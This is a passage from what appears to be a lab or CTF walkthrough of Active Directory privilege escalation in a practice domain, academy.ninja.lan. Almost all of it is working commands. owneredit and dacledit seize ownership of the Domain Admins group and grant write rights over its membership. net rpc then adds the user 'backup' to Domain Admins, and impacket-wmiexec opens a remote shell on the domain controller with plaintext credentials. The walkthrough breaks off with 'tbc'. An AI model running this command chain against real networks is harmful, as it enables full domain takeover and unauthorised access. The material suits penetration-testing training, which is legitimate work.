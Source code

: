 {% code overflow="wrap" %}
```bash
python3 owneredit.py -action write -new-owner 'backup' -target-sid 'S-1-5-21-1699050531-2152117061-1142517440-512' academy.ninja.lan/backup:hacker -dc-ip 192.168.58.20
```
{% endcode %}

<figure><img src="../.gitbook/assets/Pasted image 20240325124656.png" alt=""><figcaption></figcaption></figure>

With dacledit we can grant to backup the permission to add member to the group Domain Admins

{% code overflow="wrap" %}
```bash
python3 dacledit.py -action 'write' -rights 'WriteMembers' -principal 'backup' -target-dn 'CN=DOMAIN ADMINS,CN=USERS,DC=ACADEMY,DC=NINJA,DC=LAN' academy.ninja.lan/backup:hacker -dc-ip 192.168.58.20
```
{% endcode %}

<figure><img src="../.gitbook/assets/Pasted image 20240325125653.png" alt=""><figcaption></figcaption></figure>

and add it

{% code overflow="wrap" %}
```bash
net rpc group addmem "Domain Admins" "backup" -U academy.ninja.lan/backup%hacker -S "dc-ac.academy.ninja.lan"
```
{% endcode %}

we can now log in in the dc with the backup credentials

```bash
impacket-wmiexec  academy.ninja.lan/backup:hacker@192.168.58.20 -dc-ip 192.168.58.20
```

<figure><img src="../.gitbook/assets/Pasted image 20240325130005.png" alt=""><figcaption></figcaption></figure>

#### **tbc**
